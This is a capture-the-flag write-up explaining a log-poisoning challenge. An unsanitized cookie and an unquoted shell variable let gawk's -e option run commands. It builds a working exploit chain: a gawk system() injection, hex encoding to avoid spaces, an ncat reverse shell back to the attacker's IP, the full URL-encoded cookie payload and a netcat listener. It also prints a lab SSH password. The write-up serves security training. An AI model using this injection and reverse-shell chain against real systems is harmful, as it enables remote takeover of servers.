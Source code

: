 # Solution

This challenge is an example of log poisoning and should be used as a whitebox/code review exercise. A simple web server use cookies to log user sessions. Every connection is logged in a master log file and create dedicated log file for the session. Every 30 seconds, a cleanup script collects the warnings of each dedicated log file based on the master log file and clear them.

Cookies is a value controlled by the user and is logged without sanitization. This shouldn't be a problem, but the Log file is used in another program. This other program, the cleanup script, looks for `Log file:` and take everything following as the log file. Therefore, a correctly modified cookie can be interpreted by the cleanup script as the wanted file.

The cleanup script has this line, which doesn't have quotes arround $file_path, the potentially controlled variable.

```bash
gawk -f $filter $file_path >>$warning_log_file &
```

Opening this script in VSCode with something like ShellCheck will warn you `Double quote to prevent globbing and word splitting.`. This mean, a string will be split and interpreted as different argument. You can try this:

```bash
t="-n /etc/passwd"
cat $t
```

Reading the documentation of gawk we can see:

```bash
    gawk [ POSIX or GNU style options ] -f program-file [ -- ] file .

[...]
       -e program-text
       --source program-text
              Use program-text as AWK program source code.  This option allows the easy intermixing of library functions (used via the  -f
              and  --include options) with source code entered on the command line.  It is intended primarily for medium to large AWK pro‐
              grams used in shell scripts.  Each argument supplied via -e is treated as if it begins with  an  implicit  @namespace  "awk"
              statement.
```

It seems that GNU Awk is able to execute some kind of script which is pass as argument `-f`, but it can also take a program-text as `-e`. Looking at [gtfobins](https://gtfobins.github.io/), we can find [gawk](https://gtfobins.github.io/gtfobins/gawk/) has the ability to execute shell command.

```bash
gawk 'BEGIN {system("/bin/sh")}'
```

Trying `-e` flag, this should be valid. Note it requires a valid file path at the end:

```bash
file_path='-e {system("/bin/sh")} /etc/passwd'
gawk -f $filter $file_path
```

But this give an error:

```bash
file_path='-e {system("ls -la")} /etc/passwd'
gawk -f $filter $file_path

gawk: fatal: cannot open shared library `a")}' for reading: No such file or directory
```

Since it uses a space, globbing interpret this has two arguments. So we have RCE, but can't use space and do not have any output... Trying to create a reverse shell using [revshells](https://www.revshells.com/), but they all use spaces. Looking at [PayloadsAllTheThings
/Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space) we could try a couple of techniques. But remembering we are in a string, we could use hex:

```bash
file_path='-e {system("ls\x20-la")} /etc/passwd'
gawk -f $filter $file_path
```

Ok, we can see in the Dockerfile ncat is installed.

```bash
ncat -c bash <ip> <port>
```

Note, here we use IP since we are in the same network, but we might need to have a publicly available IP through [Duckdns](https://www.duckdns.org/) or even [ngrok](https://ngrok.com/) or use the available docker. We have access to a local machine which we can connect to via ssh with the password : `traps-sizably-jogger-scrimmage2`

```bash
ssh user@<ip>
```

We can encode to Hex using [CyberChef](https://gchq.github.io/CyberChef/).

```bash
\x6e\x63\x61\x74\x20\x2d\x63\x20\x62\x61\x73\x68\x20\x30\x2e\x30\x2e\x30\x2e\x30\x20\x34\x34\x34\x34
```

Cool, we have our final payload:

```bash
Log file:-e {system("\x6e\x63\x61\x74\x20\x2d\x63\x20\x62\x61\x73\x68\x20\x31\x37\x32\x2e\x32\x32\x2e\x30\x2e\x31\x20\x34\x34\x34\x34")} /etc/passwd
```

Which we need to URL encode:

```shell
Log%20file%3A%2De%20%7Bsystem%28%22%5Cx6e%5Cx63%5Cx61%5Cx74%5Cx20%5Cx2d%5Cx63%5Cx20%5Cx62%5Cx61%5Cx73%5Cx68%5Cx20%5Cx31%5Cx37%5Cx32%5Cx2e%5Cx32%5Cx32%5Cx2e%5Cx30%5Cx2e%5Cx31%5Cx20%5Cx34%5Cx34%5Cx34%5Cx34%22%29%7D%20%2Fetc%2Fpasswd
```

Open a listener:

```shell
nc -lvnp <port>
```

Set the cookie to our payload and get the page.
![cookie](cookie.png)

![listener](listener.png)

Succes! We have a reverse shell, we can `ls` and `cat` the flag!
